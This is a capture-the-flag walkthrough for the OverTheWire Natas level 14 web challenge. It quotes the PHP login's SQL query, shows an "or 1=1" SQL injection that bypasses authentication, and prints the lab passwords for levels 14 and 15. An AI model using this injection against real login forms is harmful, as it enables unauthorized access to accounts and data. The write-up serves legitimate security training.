 # Natas Level 14
The ***URL*** to which you need to connect is *http://natas14.natas.labs.overthewire.org*. The ***username*** is *natas14* and the ***password*** is *Lg96M10TdfaPyVBkJdjymbllQ5L6qdl1*. 

Lets check the [viewsource](http://natas14.natas.labs.overthewire.org/index-source.html) link.
By analyzing the php script in the source code We see that we can inject some sql filter in the where.

```SQL
SELECT * from users where username="$username" and password="$password"
```

So if we enter in username something like this 'reda' and in the password 'reda" Or' "1"="1'.

```
Username: reda
Password: reda" Or' "1"="1
```

```SQL
SELECT * from users where username="reda" and password="reda" Or "1"="1"
```

```
The password for natas15 is AwWj0w5cvxrZiONgZ9J5stNVkmxdk39J
```
